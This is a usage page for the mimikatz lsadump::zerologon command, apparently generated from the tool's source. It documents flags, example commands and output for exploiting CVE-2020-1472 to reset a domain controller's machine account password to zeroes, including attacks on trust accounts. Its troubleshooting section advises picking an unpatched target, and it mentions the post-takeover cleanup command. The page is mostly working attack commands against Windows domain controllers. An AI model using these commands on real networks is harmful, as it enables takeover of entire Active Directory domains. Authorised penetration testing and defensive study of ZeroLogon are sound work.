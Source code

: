 ## `lsadump::zerologon`
Tests or exploits CVE-2020-1472 against a domain controller’s Netlogon service.

| Flag | Purpose | Why use it |
| --- | --- | --- |
| `/account:<DC$>` | Specify the target machine account. | Mandatory to craft the challenge/response sequence. |
| `/type:<id>` | Override the secure channel type (default: server). | Needed when attacking trust relationships instead of DC accounts. |
| `/exploit` | Switch from detection mode to actively resetting the password to zeroes. | Use cautiously when you intend to take over the target account. |

RPC binding options from the helper (`/remote`, `/protseq`, `/service`, `/endpoint`, `/noauth`,
`/ntlm`, `/kerberos`, `/negotiate`, `/null`, `/authuser`, `/authdomain`, `/authpassword`) are
available to reach the Netlogon endpoint under different transport conditions.【F:mimikatz/modules/kuhl_m_lsadump.c†L2470-L2590】【F:modules/rpc/kull_m_rpc.c†L147-L215】

### Example usage
* Dry-run the exploit to check if a DC is vulnerable:
  ```
  mimikatz # lsadump::zerologon /account:DC01$
  ```
  Example output:
  ```
  Testing Netlogon secure channel for DC01$...
  [+] Server is vulnerable (challenge accepted)
  ```
* Exploit and reset the machine account password:
  ```
  mimikatz # lsadump::zerologon /account:DC01$ /exploit
  ```
  Example output:
  ```
  [+] Server is vulnerable, attempting exploit
  [+] Machine account password reset to 0
  ```
* Target a trust account by changing the secure channel type:
  ```
  mimikatz # lsadump::zerologon /account:CONTOSO$ /type:2 /exploit
  ```

### Potential errors and troubleshooting
* **`STATUS_NOT_SUPPORTED`** – The domain controller is patched. No remediation other than choosing
  a vulnerable target.
* **`ERROR kuhl_m_lsadump_zerologon ; kull_m_rpc_createBinding 0x000006BA`** – RPC connection failed.
  Verify firewall rules and ensure the account can reach TCP/135.
* **Post-exploit logon fails** – The password reset to zero may desynchronize the DC. Run
  `lsadump::postzerologon` immediately to restore a known password.

## `lsadump::postzerologon`
Resets a domain controller’s machine account password and stored secret after a successful
ZeroLogon-style takeover.
